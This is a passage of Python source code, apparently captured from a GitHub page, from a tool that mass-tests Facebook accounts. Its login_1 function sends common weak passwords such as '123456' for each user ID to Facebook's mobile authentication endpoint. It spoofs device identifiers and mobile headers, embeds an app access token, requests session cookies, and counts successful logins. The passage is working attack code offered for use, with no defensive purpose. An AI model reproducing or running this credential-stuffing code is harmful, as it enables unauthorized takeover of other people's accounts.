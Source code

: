 ‎                pool.submit(login_2, uid)
‎            else:
‎                print(f"    {rad}[!] INVALID METHOD SELECTED")
‎                break
‎
‎
‎def login_1(uid):
‎    """
‎    Login attempt method 1.
‎    """
‎    global loop
‎    session = requests.session()
‎    try:
‎        sys.stdout.write(f"\r\r\x1b[1;37m\x1b[38;5;196m+\x1b[1;37m\x1b[38;5;196m(\x1b[1;37mAHB-M1\x1b[38;5;196m)\x1b[1;37m\x1b[38;5;196m\x1b[1;37m\x1b[38;5;196m(\x1b[38;5;192m{loop}\x1b[38;5;196m)\x1b[1;37m\x1b[38;5;196m\x1b[1;37m\x1b[38;5;196m(\x1b[1;37mOK\x1b[38;5;196m)\x1b[1;37m\x1b[38;5;196m\x1b[1;37m\x1b[38;5;196m(\x1b[38;5;192m{len(oks)}\x1b[38;5;196m)")
‎        sys.stdout.flush()
‎        for pw in ('123456', '1234567', '12345678', '123456789'):
‎            data = {
‎                'adid': str(uuid.uuid4()),
‎                'format': 'json',
‎                'device_id': str(uuid.uuid4()),
‎                'cpl': 'true',
‎                'family_device_id': str(uuid.uuid4()),
‎                'credentials_type': 'device_based_login_password',
‎                'error_detail_type': 'button_with_disabled',
‎                'source': 'device_based_login',
‎                'email': str(uid),
‎                'password': str(pw),
‎                'access_token': '350685531728|62f8ce9f74b12f84c123cc23437a4a32',
‎                'generate_session_cookies': '1',
‎                'meta_inf_fbmeta': '',
‎                'advertiser_id': str(uuid.uuid4()),
‎                'currently_logged_in_userid': '0',
‎                'locale': 'en_US',
‎                'client_country_code': 'US',
‎                'method': 'auth.login',
‎                'fb_api_req_friendly_name': 'authenticate',
‎                'fb_api_caller_class': 'com.facebook.account.login.protocol.Fb4aAuthHandler',
‎                'api_key': '882a8490361da98702bf97a021ddc14d'
‎            }
‎            headers = {
‎                'User-Agent': window1(),
‎                'Content-Type': 'application/x-www-form-urlencoded',
‎                'Host': 'graph.facebook.com',
‎                'X-FB-Net-HNI': '25227',
‎                'X-FB-SIM-HNI': '29752',
‎                'X-FB-Connection-Type': 'MOBILE.LTE',
‎                'X-Tigon-Is-Retry': 'False',
‎                'x-fb-session-id': 'nid=jiZ+yNNBgbwC;pid=Main;tid=132;',
‎                'x-fb-device-group': '5120',
‎                'X-FB-Friendly-Name': 'ViewerReactionsMutation',
‎                'X-FB-Request-Analytics-Tags': 'graphservice',
‎                'X-FB-HTTP-Engine': 'Liger',
‎                'X-FB-Client-IP': 'True',
‎                'X-FB-Server-Cluster': 'True',
‎                'x-fb-connection-token': 'd29d67d37eca387482a8a5b740f84f62'
‎            }
‎            res = session.post('https://b-graph.facebook.com/auth/login', data=data, headers=headers, allow_redirects=False).json()
‎            if 'session_key' in res: